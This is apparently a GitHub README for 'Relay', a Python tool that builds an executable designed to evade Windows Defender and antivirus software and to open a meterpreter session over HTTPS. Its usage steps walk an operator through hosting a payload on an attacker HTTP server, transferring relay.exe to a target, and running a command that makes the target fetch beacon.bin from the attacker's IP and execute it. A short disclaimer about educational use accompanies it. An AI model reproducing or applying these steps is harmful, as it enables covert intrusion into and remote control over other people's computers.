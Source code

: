 # Relay bypasses Defender

Script Name: **Relay**

## Description

The "Relay" script is a powerful tool designed to generate an executable file that bypasses Windows Defender and establishes a secure connection using meterpreter over HTTPS. This script automates the process of creating a payload that can be used for various purposes, such as penetration testing and security assessments.

## Features

- Bypasses Windows Defender: The generated executable is specifically crafted to evade detection by Windows Defender and other antivirus software.
- Meterpreter over HTTPS: The script establishes a connection using meterpreter, providing a versatile and robust framework for interacting with the target system.
- Encrypted Communication: All communication between the attacker and the target system is encrypted using HTTPS, ensuring confidentiality and integrity of the data exchanged.
- Simple Usage: The script prompts the user to enter their IP address, port, and certificate file, making it easy to customize and generate the payload.

## Usage

1. Run the Python script: `python3 relay.py` and follow the on-screen instructions.
2. Enter your IP address and port, when prompted.
3. The script will generate the `beacon.bin` and an executable file named `relay.exe`.
4. On the attacker machine, navigate to the directory containing `beacon.bin`.
5. Start a simple HTTP server using the command: `python3 -m http.server`.
6. Transfer the `relay.exe` file to the target system.
7. On the target system, open a command prompt and navigate to the directory containing `relay.exe`.
8. Run the following command: `relay.exe <attacker_ip> <attacker_port> beacon.bin`. Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port specified during script execution.
9. The target system will download `beacon.bin` from the HTTP server and execute it, establishing a meterpreter session over HTTPS.

**Note:** Ensure that you have the necessary permissions and legal authorization before using this script for any activities.

## Disclaimer

This script is intended for educational and ethical purposes only. The misuse of this script for any unauthorized activities is strictly prohibited. The author is not responsible for any damage or illegal actions caused by the use of this script.

## License

This project is licensed under the [MIT License](LICENSE).

